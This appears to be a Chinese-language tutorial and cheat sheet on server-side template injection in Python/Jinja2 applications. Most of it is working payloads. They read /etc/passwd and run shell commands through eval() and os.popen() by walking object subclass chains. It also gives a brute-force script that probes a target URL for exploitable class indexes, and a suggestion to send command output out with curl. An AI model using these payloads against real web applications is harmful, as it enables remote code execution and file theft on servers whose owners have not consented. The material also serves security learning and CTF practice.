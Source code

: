 
1. 读取任意文件: (仅限 python 2):
```python
{{[].__class__.__base__.__subclasses__()[40]('/etc/passwd').read()}}
```

>  `__subclasses__[40]` 指向 `<type 'file'>`, 此file类可以直接用来读取文件;

2. 读取任意文件: (python 3)

```python
{{().__class__.__bases__[0].__subclasses__()[79]["get_data"](0, "/etc/passwd")}}
```

> 要得到这个 payload, 可以编写一个脚本, 遍历 `__class__.__bases__[0].__subclasses__()` 这个列表即可;

> 我们可以用 `<class '_frozen_importlib_external.FileLoader'>` 这个类去读取文件。

3. 利用 `eval()` 执行任意命令 (RCE)

典型 payload:

```python
{{''.__class__.__bases__[0].__subclasses__()[166].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
```

> 这些类的典型的 含 `eval()` 函数的类:
> - `warnings.catch_warnings`
> - `WarningMessage`
> - `codecs.IncrementalEncoder`
> - `codecs.IncrementalDecoder`
> - `codecs.StreamReaderWriter`
> - `os._wrap_close`
> - `reprlib.Repr`
> - `weakref.finalize`
> - ......

如果不确定这个类有没有 `eval()` 来执行代码, 可以写个脚本, 来遍历所有类的内置函数:

```python
{{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__['__builtins__']}}
```

4. 利用 os 模块执行任意命令 (RCE)

Python的 os 模块中有`system()`和 `popen()`这两个函数可用来执行命令。其中 `system()` 函数执行命令是没有回显的，我们可以使用 `system()` 函数配合 `curl` 外带数据；`popen()` 函数执行命令有回显。所以比较常用的函数为 `popen()` 函数，而当 `popen()` 函数被过滤掉时，可以使用 `system()` 函数代替。

> 找含 os 模块的类的思路是类似的, 脚本:
> ```python
> # 遍历 os 模块, 这样不一定准确
> for i in range(500):
>    url = "http://xxx.xxx.xxx.xxx:xx/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__}}"
>
>    res = requests.get(url=url, headers=headers)
>    if 'os.py' in res.text:
>        print(i)
>
> # 遍历找 popen() 更准确, 把 os.py 换为 popen 即可
>
> ```
